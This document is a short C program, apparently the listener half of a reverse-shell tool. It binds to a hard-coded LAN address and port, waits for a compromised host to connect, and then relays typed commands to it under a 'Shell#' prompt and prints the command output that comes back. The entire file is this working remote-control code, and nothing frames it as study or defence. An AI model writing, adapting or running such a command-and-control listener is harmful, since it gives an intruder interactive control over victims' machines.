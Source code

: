 #include <stdio.h>
#include <sys/types.h>	
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>	//for socklen_t

/*#include <sys/socket.h>	for linux  
#include <netinet/in.h>
#include <arpa/inet.h>*/


int main()
{
	int sock, client_socket;
	char buffer[1024];
	char response[18384];
	struct sockaddr_in server_address, client_address;
	int i=0;
	int optval = 1;
	socklen_t client_length;

	sock = socket(AF_INET, SOCK_STREAM, 0);

	if (setsockopt(sock, SOL_SOCKET, SO_REUSEADDR, &optval, sizeof(optval)) < 0) {
		printf("Error Setting TCP Socket Options!\n");
		return 1;
	}

	server_address.sin_family = AF_INET;
	server_address.sin_addr.s_addr = inet_addr("192.168.1.6");
	server_address.sin_port = htons(50005);

	bind(sock, (struct sockaddr *) &server_address, sizeof(server_address));
	listen(sock, 5);
	client_length = sizeof(client_address);
	client_socket = accept(sock, (struct sockaddr *) &client_address, &client_length);

	while(1)
	{
		jump:
		bzero(&buffer, sizeof(buffer));
		bzero(&response, sizeof(response));
		printf("* Shell#%s~$: ", inet_ntoa(client_address.sin_addr));
		fgets(buffer, sizeof(buffer), stdin);
		strtok(buffer, "\n");
		write(client_socket, buffer, sizeof(buffer));
		if (strncmp("q", buffer, 1) == 0) {
			break;
		}
		else {
			recv(client_socket, response, sizeof(response), MSG_WAITALL);
			printf("%s", response);
		}

	}

}

